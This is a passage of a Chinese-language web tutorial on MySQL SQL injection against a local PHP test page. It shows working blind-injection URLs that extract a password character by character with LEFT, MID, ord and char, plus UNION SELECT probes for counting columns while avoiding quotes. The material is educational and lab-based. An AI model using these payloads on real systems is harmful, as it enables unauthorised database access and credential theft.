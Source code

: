 LEFT(password,2)=char(109,121)</span></p></td></tr></tbody></table></div><p>　　又正常返回，说明正确，但这样影响到效率，既然是整形，我们完全可以用比较运算符来比较：</p><p></p><div class="table-box"><table cellspacing="1" cellpadding="5" width="100%" align="center" bgcolor="#cccccc" border="0" style="width:700px;color:rgb(69,69,69);font-size:16px;"><tbody><tr><td bgcolor="#eeeeee"><p><span style="color:#0000ff;">http://127.0.0.1/injection/user.php?userid=1 and LEFT(password,1)&gt;char(100)</span></p></td></tr></tbody></table></div><p>　　然后适当调整char()里面的数字来确定一个范围，很快就可以猜出来，到了后面的时候，还是可以用比较运算符来比较：</p><p></p><div class="table-box"><table cellspacing="1" cellpadding="5" width="100%" align="center" bgcolor="#cccccc" border="0" style="width:700px;color:rgb(69,69,69);font-size:16px;"><tbody><tr><td bgcolor="#eeeeee"><p><span style="color:#0000ff;">http://127.0.0.1/injection/user.php?userid=1 and LEFT(password,3)&gt;char(109,121,111)</span></p></td></tr></tbody></table></div><p>　　而原来已经猜好的不用改变了，很快就可以猜完：</p><p></p><div class="table-box"><table cellspacing="1" cellpadding="5" width="100%" align="center" bgcolor="#cccccc" border="0" style="width:700px;color:rgb(69,69,69);font-size:16px;"><tbody><tr><td bgcolor="#eeeeee"><p><span style="color:#0000ff;">http://127.0.0.1/injection/user.php?userid=1 and LEFT(password,6)=char(109,121,112,97,115,115)</span></p></td></tr></tbody></table></div><p align="center"><img title="SQL注入语句大全 - 【轰隆隆】 - 龙在天涯" height="453" alt="SQL注入语句大全 - 【轰隆隆】 - 龙在天涯" src="http://www.4ngel.net/img/php7.gif" width="760" style="border:0px;"></p><p>　　然后在mysql&gt;命令提示符下或者在phpMyadmin里面执行：</p><p></p><div class="table-box"><table cellspacing="1" cellpadding="5" width="100%" align="center" bgcolor="#cccccc" border="0" style="width:700px;color:rgb(69,69,69);font-size:16px;"><tbody><tr><td bgcolor="#eeeeee"><p><span style="color:#0000ff;">select char(109,121,112,97,115,115)</span></p></td></tr></tbody></table></div><p>　　就会返回：mypass</p><p align="center"><img title="SQL注入语句大全 - 【轰隆隆】 - 龙在天涯" height="344" alt="SQL注入语句大全 - 【轰隆隆】 - 龙在天涯" src="http://www.4ngel.net/img/php8.gif" width="322" style="border:0px;"></p><p>　　当然也可以使用SUBSTRING(str,pos,len)和MID(str,pos,len)函数，从字符串 str 的 pos 位置起返回 len 个字符的子串。这个和ACCESS是一样的。还是刚才的例子，我们猜password字段的第三位、第四位试试，第三位是p，第四位是a，我们这样构造：</p><p></p><div class="table-box"><table cellspacing="1" cellpadding="5" width="100%" align="center" bgcolor="#cccccc" border="0" style="width:700px;color:rgb(69,69,69);font-size:16px;"><tbody><tr><td bgcolor="#eeeeee"><p><span style="color:#0000ff;">http://127.0.0.1/injection/user.php?userid=1 and mid(password,3,1)=char(112)<br>http://127.0.0.1/injection/user.php?userid=1 and mid(password,4,1)=char(97)</span></p></td></tr></tbody></table></div><p>　　我们要的结果就迸出来了。当然，如果觉得麻烦，还可以用更简单的办法，就是利用ord()函数，具体作用可以去查看MYSQL参考手册，该函数返回的是整形类型的数据，可以用比较运算符进行比较、当然得出的结果也就快多了，也就是这样提交：</p><p></p><div class="table-box"><table cellspacing="1" cellpadding="5" width="100%" align="center" bgcolor="#cccccc" border="0" style="width:700px;color:rgb(69,69,69);font-size:16px;"><tbody><tr><td bgcolor="#eeeeee"><p><span style="color:#0000ff;">http://127.0.0.1/injection/user.php?userid=1 and ord(mid(password,3,1))&gt;111<br>http://127.0.0.1/injection/user.php?userid=1 and ord(mid(password,3,1))&lt;113<br>http://127.0.0.1/injection/user.php?userid=1 and ord(mid(password,3,1))=112</span></p></td></tr></tbody></table></div><p>　　这样我们就得出结果了，然后我们再用char()函数还原出来就好了。至于其他更多函数，大家可以自己去试验，限于篇幅也不多说了。</p><p><span style="font-weight:700;">3、快速确定未知数据结构的字段及类型</span></p><p>　　如果不清楚数据结构，很难用UNION联合查询，这里我告诉大家一个小技巧，也是非常有用非常必要的技巧，充分发挥UNION的特性。<br>　　还是拿前面的show.php文件做例子，当我们看到形如xxx.php?id=xxx的URL的时候，如果要UNION，就要知道这个xxx.php查询的数据表的结构，我们可以这样提交来快速确定有多少个字段：</p><p></p><div class="table-box"><table cellspacing="1" cellpadding="5" width="100%" align="center" bgcolor="#cccccc" border="0" style="width:700px;color:rgb(69,69,69);font-size:16px;"><tbody><tr><td bgcolor="#eeeeee"><p><span style="color:#0000ff;">http://127.0.0.1/injection/show.php?id=-1 union select 1,1,1</span></p></td></tr></tbody></table></div><p>　　有多少个“1”就表示有多少个字段，可以慢慢试，如果字段数不相同，就肯定会出错，如果字段数猜对了，就肯定会返回正确的页面，字段数出来了，就开始判断数据类型，其实也很容易，随便用几个字母代替上面的1，但是由于magic_quotes_gpc打开，我们不能用引号，老办法，还是用char()函数，char(97)表示字母“a”，如下：</p><p></p><div clas